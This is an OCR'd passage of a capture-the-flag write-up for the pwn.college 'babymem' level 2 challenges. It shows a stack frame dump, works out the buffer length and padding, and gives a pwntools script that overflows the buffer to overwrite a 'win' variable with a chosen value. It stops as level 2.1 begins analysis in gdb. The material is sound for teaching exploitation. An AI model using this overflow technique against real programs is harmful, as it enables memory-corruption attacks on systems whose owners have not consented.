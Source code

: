 ```
ebp ------> | 0x00007fff85a4bd30 (rsp+0x00b0) | 70 cd a4 85 ff 7f 00 00 | 0x00007fff85a4cd70 | <------ saved ebp of previous frame
	    | 0x00007fff85a4bd38 (rsp+0x00b8) | 22 ef b6 1b 31 56 00 00 | 0x000056311bb6ef22 | <------ return address
            +---------------------------------+-------------------------+--------------------+
```
{% endcode %}

* The buffer is 87 bytes long, which means that it only covers 7 bytes out of the word at `(rsp+0x0090)`.

```
Buffer:                           Padding byte:           Win variable:

00 00 00 00 00 00 00 00           00                      00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 
```

* The buffer ends, we have a null byte and then we have our win variable.
* We have to change the value of the win variable to `0x2dbba028`.
* Let's build our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x2dbba028)

p = process('/challenge/babymem_level2.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

* We successfully overwrote the variable.



## level 2.1

> Overflow a buffer on the stack to set trickier conditions to obtain the flag!

* This time we are not given any information by the program.
* In order to create a payload we need to know three things:
  * [ ] Location of buffer.
  * [ ] Location of win variable.
  * [ ] Value being compared to win variable.
* Let's open the program in `gdb`.
